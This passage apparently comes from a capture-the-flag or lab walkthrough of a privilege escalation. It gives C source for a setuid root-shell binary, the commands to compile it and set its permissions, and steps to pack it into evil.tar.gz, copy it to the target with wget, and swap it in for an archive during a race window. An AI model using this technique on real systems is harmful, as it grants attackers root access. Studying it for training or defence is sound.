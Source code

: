 <h4>The Plan</h4>


Fool `$check` by creating the `$basedir` variable on Kali to house a setuid rootshell.
Wait for the script to 'sleep', then substitute the compressed archive with our own.
When the script processes the archive and creates the 'check' folder, we can access the setuid file and execute it...getting a root-shell.


<hr width="250" size="6">

First on Kali make a setuid.c file:


```
#include <stdio.h>

#include<stdlib.h>

#include<unistd.h>

int main ( int argc, char *argv[] )

{

setreuid(0,0);

execve("/bin/sh", NULL, NULL);

}

```

compile it:

```
gcc -m32 -o setuid setuid.c
```

then set its permissions:
`chmod 6555 setuid`


Next `mkdir -p var/www/html` this creates all the necessary folders.

`mv setuid var/www/html/`

Next make a tarball of the created path and file.

```
tar -zcvf evil.tar.gz var/
```

we get `evil.tar.gz`

use wget to copy it across to the target folder `/var/tmp`

#############


Then in /var/tmp repeatedly do `ls -la` until we see the hidden file with a long random name.
